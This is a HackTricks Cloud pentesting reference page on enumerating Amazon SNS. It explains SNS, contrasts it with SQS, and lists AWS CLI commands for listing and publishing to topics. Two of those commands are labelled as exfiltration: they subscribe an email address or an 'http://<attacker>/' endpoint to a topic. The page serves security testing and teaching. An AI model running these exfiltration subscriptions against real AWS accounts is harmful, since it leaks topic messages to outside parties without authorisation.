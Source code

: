 # AWS - SNS Enum

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS) is a **fully managed messaging service** for both **application-to-application** (A2A) and **application-to-person** (A2P) communication.

The A2A pub/sub functionality provides **topics** for high-throughput, **push-based, many-to-many** messaging between distributed systems, microservices, and event-driven serverless applications. Using Amazon SNS topics, your publisher systems can fanout messages to a **large number of subscriber systems.**

### **Difference with SQS**

**SQS** is a **queue-based** service that allows point-to-point communication, ensuring that messages are processed by a **single consumer**. It offers **at-least-once delivery**, supports standard and FIFO queues, and allows message retention for retries and delayed processing.\
On the other hand, **SNS** is a **publish/subscribe-based service**, enabling **one-to-many** communication by broadcasting messages to **multiple subscribers** simultaneously. It supports **various subscription endpoints like email, SMS, Lambda functions, and HTTP/HTTPS**, and provides filtering mechanisms for targeted message delivery.\
While both services enable decoupling between components in distributed systems, SQS focuses on queued communication, and SNS emphasizes event-driven, fan-out communication patterns.

### **Enumeration**

```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
